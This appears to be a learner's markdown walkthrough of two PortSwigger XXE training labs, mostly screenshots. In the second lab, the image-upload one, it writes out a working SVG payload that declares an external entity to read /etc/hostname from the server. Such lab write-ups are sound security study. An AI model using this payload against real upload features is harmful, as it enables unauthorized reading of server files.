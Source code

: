 ## [Lab 8: Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/fe23e892-d22d-42cc-bd3f-13e9c0942ff3)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/fd7ab000-d021-49a0-a72c-1cd77c5518d3)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/43d7463a-f54b-4f41-ab9d-bc2cdf41f7fb)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/f407871d-0795-4bf3-9b7e-23372496c710)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/296cf2f9-559d-4bb8-85e2-0116537460ee)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/a6bcbab1-143b-4d7c-8111-025bc06093b8)

sovle the lab

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/13b94d35-d614-49a9-9118-ab2742e915e3)

## [Lab 9: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/4b15b285-7229-4586-a90a-8e5b4ad6254e)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/be982105-c55b-4a18-aa56-22deaaf79521)

creat

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/37b69809-150c-4523-9267-df8c2fe7adc9)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/e820be38-2657-48cc-9394-4025377cf620)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/32f1a1c6-6d25-4bd3-840d-e148354164ad)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/8eb66ef0-f87e-476b-b156-6e05894931f6)

picture details:

![avatars](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/2f166e57-63d4-448e-b161-e8bc847f8a06)

submit and solve the lab

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/987a3fff-45c6-4996-b154-5350a161ef16)
